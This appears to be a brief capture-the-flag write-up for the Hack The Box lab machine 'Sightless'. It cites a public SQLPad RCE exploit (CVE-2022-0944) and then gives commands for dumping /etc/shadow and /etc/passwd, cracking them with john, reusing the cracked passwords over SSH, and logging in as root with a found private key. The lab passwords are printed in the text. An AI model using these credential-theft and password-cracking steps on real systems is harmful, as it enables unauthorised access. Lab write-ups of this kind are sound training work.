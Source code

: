 # sightless
## initial foothold

on the website sightless.htb we can see sqlpad.sightless.htb
We can see this is a SQLPad and there is a CVE 
```
https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944
```
after exploiting this cve we are root on a docker container 
we can extract /etc/shadow and /etc/passwd to crack some credentials
to do so we need to copy thoses 2 files and use 
```
unshadow passwd shadow > unshadow
```
then 
```
john --wordlist=/usr/share/wordlists/rockyou.txt unshadow
``` 
we get 
```
blindside        (root)
insaneclownposse (michael)
```
we can ssh as michael with the password reuse : insaneclownposse
```
ssh michael@sightless.htb
```

from here i usualy go to /tmp to upload linpeas.sh and here i found a id_rsa  so i copied it to my box and try some combinations
```
ssh -i id_rsa root@sightless.htb
```

we are root

